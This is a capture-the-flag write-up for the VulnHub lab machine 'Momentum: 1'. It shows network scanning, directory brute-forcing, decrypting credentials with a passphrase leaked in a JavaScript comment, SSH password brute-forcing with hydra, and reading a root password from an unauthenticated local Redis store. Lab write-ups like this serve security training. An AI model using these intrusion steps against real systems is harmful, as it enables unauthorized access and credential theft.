



[vulnhub - easy/medium] momentum: 1
-----------------------------------

The first thing I do is fping to find out the machine's ip in my host-only network:

```
┌──(j㉿kali)-[~/Desktop/vulnhub/momentum-1]
└─$ fping -aqg 192.168.56.0/24
192.168.56.1
192.168.56.100
192.168.56.121
```

Then nmap for all ports:

```
┌──(j㉿kali)-[~/Desktop/vulnhub/momentum-1]
└─$ nmap -p- -T4 -oN nmap_info_allports 192.168.56.121         
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-04 21:49 -03
Nmap scan report for 192.168.56.121
Host is up (0.000054s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.26 seconds
```

Then nmap the open ports for version and service:

```
┌──(j㉿kali)-[~/Desktop/vulnhub/momentum-1]
└─$ nmap -p 22,80 -sC -sV -oN nmap_info_detailed 192.168.56.121 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-04 21:51 -03
Nmap scan report for 192.168.56.121
Host is up (0.00037s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 5c:8e:2c:cc:c1:b0:3e:7c:0e:22:34:d8:60:31:4e:62 (RSA)
|   256 81:fd:c6:4c:5a:50:0a:27:ea:83:38:64:b9:8b:bd:c1 (ECDSA)
|_  256 c1:8f:87:c1:52:09:27:60:5f:2e:2d:e0:08:03:72:c8 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Momentum | Index 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.77 seconds
```

Next up is checking the webpage being served on port 80 to see what I can get:



Nothing really interesting in the source code of the website. I run exiftoon on all 4 images and get nothing out of it. The images come from '/img/' directory so I go to http://192.168.56.121/img/ to see if there's anything interesting there and there isn't.

When I click the first Image, I'm redirected to http://192.168.56.121/#img1

And see this:


And when I click the image, I'm redirected to http://192.168.56.121/opus-details.php?id=demon

And see this:



The url contains the "id" parameter that might be injectable, so I run sqlmap on this url and get nothing out of it.

I run gobuster in this url and this is what I find:

```
┌──(j㉿kali)-[~/Desktop/vulnhub/momentum-1]
└─$ gobuster dir -u http://192.168.56.121/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster_dir_info -x html,txt,php

/index.html           (Status: 200) [Size: 2001]
/img                  (Status: 301) [Size: 314] [--> http://192.168.56.121/img/]
/css                  (Status: 301) [Size: 314] [--> http://192.168.56.121/css/]
/manual               (Status: 301) [Size: 317] [--> http://192.168.56.121/manual/]
/js                   (Status: 301) [Size: 313] [--> http://192.168.56.121/js/]
/server-status        (Status: 403) [Size: 279]
```

When I access the http://192.168.56.121/js/ there is a 'main.js' file available, when I click on It, this is what I see:

```javascript
function viewDetails(str) {

  window.location.href = "opus-details.php?id="+str;
}

/*
var CryptoJS = require("crypto-js");
var decrypted = CryptoJS.AES.decrypt(encrypted, "SecretPassphraseMomentum");
console.log(decrypted.toString(CryptoJS.enc.Utf8));
*/
```

Commented out there's a piece of code that uses CryptoJS (and its passphrase in clear text). I immediately think of cookies that could have been encrypted with it so I look in my localstorage to see what I can find, and I find 'U2FsdGVkX193yTOKOucUbHeDp1Wxd5r7YkoM8daRtj0rjABqGuQ6Mx28N1VbBSZt'. So I look for a [codepen online](https://codepen.io/gabrielizalo/pen/oLzaqx) that uses CryptoJS and allows me to change it as I want, so I do this:



'auxerre-alienum##' looks like credentials to me and it must be ssh credentials, so I try to log in with these to no avail. I then create a python script to change the '#' in the supposed password to numbers as '#' might mean 'number':

```python
file = open('pass_list.txt', 'a')

for i in range(0, 10):
    file.write('alienum'+str(i)+'\n')
    for j in range(0, 10):
        string = 'alienum'+str(i)+str(j)+'\n'
        file.write(string)

file.close()
```

I try to bruteforce the ssh log in with hydra, but I have no success again.

So after trying a few things, I try to use the whole string as a password, so, with user 'auxerre' and password 'auxerre-alienum##', I manage to log in:

```
┌──(j㉿kali)-[~/Desktop/vulnhub/momentum-1]
└─$ ssh auxerre@192.168.56.121
auxerre@192.168.56.121's password: 
Linux Momentum 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Apr 22 08:47:31 2021
auxerre@Momentum:~$ ls
user.txt
auxerre@Momentum:~$ 
```

The first thing I do is get the user flag:

```
auxerre@Momentum:~$ cat user.txt 
[ Momentum - User Owned ]
---------------------------------------
flag : 84157165c30ad34d18945b647ec7f647
---------------------------------------
```

I pass linpeas to the machine using the pythonHTTPserver and wget, run the tool and get:

```
redis      458  0.2  0.4  51672  9592 ?        Ssl  17:09   0:01 /usr/bin/redis-server 127.0.0.1:6379
```

So, like that, I find out that there's Redis running internally on prot 6379. My next step is to connect to this redis server and get whatever I can out of it:

```
auxerre@Momentum:~$ redis-cli -h 127.0.0.1
127.0.0.1:6379> INFO keyspace
# Keyspace                                                                                                          
db0:keys=1,expires=0,avg_ttl=0                                                                                      
127.0.0.1:6379> SELECT 0
OK                                                                                                                  
127.0.0.1:6379> KEYS *
1) "rootpass"                                                                                                       
127.0.0.1:6379> get rootpass
"m0mentum-al1enum##" 
```

And just like that I get a string with a pattern that looks very much like a password, given the previous password's pattern. So I try to switch user into root with that password:

```
auxerre@Momentum:~$ su root                                                                                         
Password:                                                                                                           
root@Momentum:/home/auxerre#
```

Then I cd into root and get the flag:

```
[ Momentum - Rooted ]                                                                                               
---------------------------------------                                                                             
Flag : 658ff660fdac0b079ea78238e5996e40                                                                             
---------------------------------------                                                                             
by alienum with <3
```

